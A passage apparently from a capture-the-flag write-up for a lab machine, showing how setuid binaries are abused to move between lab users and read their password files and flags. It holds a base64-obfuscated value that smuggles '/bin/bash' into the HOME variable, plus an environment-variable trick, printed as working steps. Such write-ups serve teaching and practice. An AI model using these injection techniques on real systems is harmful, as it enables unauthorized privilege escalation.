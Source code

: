 ```plaintext title="ls -lah"
drwxr-x--- 1 root      anthea    4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 anthea    anthea     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 anthea    anthea    3.5K Feb  3 15:51 .bashrc
-rw-r--r-- 1 anthea    anthea     807 Apr 23  2023 .profile
-r--r----- 1 aphrodite aphrodite   21 Jul 26  2023 aphrodite_pass.txt
-rw-r----- 1 root      anthea      22 Jul 26  2023 flagz.txt
-rw-r----- 1 root      anthea     175 Jul 26  2023 mission.txt
-rwS--s--- 1 root      anthea     16K Jul 26  2023 obsessed
```

```shell title="Exploit it"
anthea@hades:~$ export MYID=^;./obsessed 
Current MYID: 94
aphrodite@hades:~$ cat aphrodite_pass.txt 
HPJVaqRzieKQeyyATsFv
```

## User - aphrodite

### flag - 06

```plaintext
^fmPlsDByrwmEpRAKgeP^
```

### 任务目标

```plaintext title="mission.txt"
The user ariadne knows what we keep in our HOME.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root      aphrodite 4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 aphrodite aphrodite  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 aphrodite aphrodite 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 aphrodite aphrodite  807 Apr 23  2023 .profile
-r--r----- 1 ariadne   ariadne     21 Jul 26  2023 ariadne_pass.txt
-rw-r----- 1 root      aphrodite   22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      aphrodite  16K Jul 26  2023 homecontent
-rw-r----- 1 root      aphrodite  185 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
aphrodite@hades:/pwned/aphrodite$ export HOME=$(echo L3B3bmVkL2FwaHJvZGl0ZTsvYmluL2Jhc2g= | base64 -d);./homecontent
The content of your HOME is:
ariadne_pass.txt  flagz.txt  homecontent  mission.txt
ariadne@hades:/pwned/aphrodite$ cat ariadne_pass.txt 
iNgNazuJrmhJKWixktzk
```
